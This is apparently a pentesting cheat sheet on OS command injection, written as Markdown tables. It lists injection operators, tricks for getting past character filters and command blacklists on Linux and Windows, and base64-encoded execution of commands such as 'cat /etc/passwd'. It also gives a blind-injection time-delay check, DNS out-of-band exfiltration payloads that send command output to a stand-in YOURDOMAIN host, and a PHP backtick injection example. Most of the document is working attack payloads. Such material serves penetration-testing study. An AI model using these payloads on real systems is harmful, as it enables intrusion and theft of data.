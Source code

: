 # OS Command Injection

## **Introduction**

> * Injection vulnerabilities are considered the number 3 risk in OWASP's Top 10 Web App Risks, given their high impact and how common they are.
> * Injection occurs when user-controlled input is misinterpreted as part of the web query or code being executed, which may lead to subverting the intended outcome of the query to a different outcome that is useful to the attacker.
> * When it comes to OS Command Injections, the user input we control must directly or indirectly go into (or somehow affect) a web query that executes system commands.

***

## **OS Command Injection Tools**

* [Linux - Bash Obfuscator](https://github.com/Bashfuscator/Bashfuscator)
* [Windows - DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation)
* Auto tool - [https://github.com/commixproject/commix](https://github.com/commixproject/commix)

***

## **Injection Operators**

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command                           |
| ------------------ | ------------------- | --------------------- | ------------------------------------------ |
| Semicolon          | ;                   | %3b                   | Both                                       |
| New Line           |                     | %0a                   | Both                                       |
| Background         | &                   | %26                   | Both (second output generally shown first) |
| Pipe               | \|                  | %7c                   | Both (only second output is shown)         |
| AND                | &&                  | %26%26                | Both (only if first succeeds)              |
| OR                 | \|\|                | %7c%7c                | Second (only if first fails)               |
| Sub-Shell          | \`\`                | %60%60                | Both (Linux-only)                          |
| Sub-Shell          | $()                 | %24%28%29             | Both (Linux-only)                          |

***

## **Linux Filtered Character Bypass**

| Filtered Character | Bypass Method           | Description                                                                      |
| ------------------ | ----------------------- | -------------------------------------------------------------------------------- |
| printenv command   | `printenv`              | Can be used to view all environment variables                                    |
| Space Character    | %09                     | Using tabs instead of spaces                                                     |
| Space Character    | ${IFS}                  | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $()) |
| Space Character    | {ls,-la}                | Commas will be replaced with spaces                                              |
| `/` Character      | ${PATH:0:1}             | Will be replaced with /                                                          |
| `;` Character      | ${LS\_COLORS:10:1}      | Will be replaced with ;                                                          |
| Any Character      | $(tr '!-}' '"-\~'<<<\[) | Shift character by one (\[ -> )                                                  |

***

## **Windows Filtered Character Bypass**

| Filtered Character | Bypass Method          | Description                                                  |
| ------------------ | ---------------------- | ------------------------------------------------------------ |
| Env command        | Get-ChildItem Env      | Can be used to view all environment variables - (PowerShell) |
| Space Character    | %09                    | Using tabs instead of spaces                                 |
| Space Character    | %PROGRAMFILES:\~10,-5% | Will be replaced with a space - (CMD)                        |
| Space Character    | $env:PROGRAMFILES\[10] | Will be replaced with a space - (PowerShell)                 |
| `\` Character      | %HOMEPATH:\~0,-17%     | Will be replaced with `\` - (CMD)                            |
| `\` Character      | $env:HOMEPATH\[0]      | Will be replaced with `\` - (PowerShell)                     |

***

## **Linux Blacklisted Command Bypass**

| Blacklist Bypass         | Payload                                                      | Description                         |
| ------------------------ | ------------------------------------------------------------ | ----------------------------------- |
| Case Manipulation        | `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                           | Execute command regardless of cases |
| Case Manipulation        | `$(a="WhOaMi";printf %s "${a,,}")`                           | Another variation of the technique  |
| Reversing a Command      | `echo 'whoami' \| rev`                                       | Reverse a string                    |
| Reversing a Command      | `$(rev<<<'imaohw')`                                          | Execute reversed command            |
| Base64 Encoding Commands | `echo -n 'cat /etc/passwd \| grep 33' \| base64`             | Encode a string with base64         |
| Base64 Encoding Commands | `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string          |

***

## **Windows Blacklisted Command Bypass**

| Blacklist Bypass         | Payload                                                                                               |
| ------------------------ | ----------------------------------------------------------------------------------------------------- |
| Case Manipulation        | `WhoAmi`                                                                                              |
| Reversing a Commands     | `"whoami"[-1..-20] -join ''`                                                                          |
| Reversing a Commands     | `iex "$('imaohw'[-1..-20] -join '')"`                                                                 |
| Base64 Encoding Commands | `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                       |
| Base64 Encoding Commands | `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('BASE64OUT')))"` |

***

## Miscellaneous & Tricks

### Detecting blind OS command injection using time delays

You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond.

Some useful commands to do that are `ping -c <number of packets> <IP>` and `sleep`

If the web application's response time differs from its normal times, then you most probably confirmed that a blind os command injection is available for you to exploit.

***

### Blind injection with out-of-band (DNS) data exfiltration

If you are dealing with a **blind** os command injection, you can use the **DNS** protocol to perform out-of-band data exfiltration. You can use services such as interact-sh or burp collaborator to set up a target domain **to read the output of your commands**

You can use payloads such as the following ones to send a **DNS request to a subdomain named with the command's output**:

* ``||nslookup+`whoami`.YOURDOMAIN||``
* `;host $((whoami)|base64).YOURDOMAIN;`

***

### PHP backtick character

The backtick character (`` `) `` in PHP can be used to gain OS command injection, as it is a character used for shell commands execution, similarly to `shell_exec()`function.

When you enclose a string in backticks, PHP will execute it as a shell command and return the output.

Consider the following example scenario:

1. You are dealing with a web application written in PHP where a `ping.php` page is hosted.
2. Navigating to `http://example.com/ping.php?ip=10.10.10.10` allows users to ping the ip address specified (10.10.10.10)
3. If any standard way to perform OS command execution does not work, you could use the backticks to your advantage. For example, you could navigate to:\
   `` http://example.com/ping.php?ip=10.10.10.10;`ls` `` \
   to effectively run the `ls` command after the ping
